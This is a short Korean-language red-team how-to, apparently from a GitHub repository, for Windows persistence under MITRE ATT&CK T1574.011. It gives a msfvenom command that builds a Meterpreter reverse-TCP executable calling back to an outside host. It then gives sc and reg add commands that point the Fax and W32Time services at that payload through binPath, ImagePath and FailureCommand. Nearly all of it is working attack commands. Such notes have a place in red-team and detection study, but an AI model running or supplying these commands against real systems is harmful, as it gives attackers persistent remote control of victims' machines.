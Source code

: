 # T1574.011 Service Registry Permissions Weakness

Status: Persistence

---

# Summary

- MITRE ATT&CK : Enterprise - Persistence - Hijack Execution Flow - Services Registry Permissions Weakness
- Require Privilege : Administrator Level
- Running Privilege : Administrator Level
- Description : 기존 윈도우 서비스(Fax, Printer 등)로 돌고 있는 것들을 오염시킨다.

---

# How To

## Step 1. 악성 EXE 생성

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=1.1.1.1 LPORT=9999 -f exe > mal.exe
```

## Step 2-1. binPath 변경

```
sc config Fax binPath= "C:\windows\system32\mal.exe"
sc start Fax
```

## Step 2-2. ImagePath 변경

```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time" /v ImagePath /t REG_SZ /d "C:\tmp\mal.exe"
```

- ImagePath : 시스템의 각 서비스에 대한 정보

## Step 2-3. FailureCommand

```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\W32Time" /v FailureCommand /t REG_SZ /d "C:\tmp\mal.exe"
sc failure Fax command= "\"c:\Windows\system32\mal.exe\""
```

- 프로세스 종료, 실행 실패시 Command를 변경함
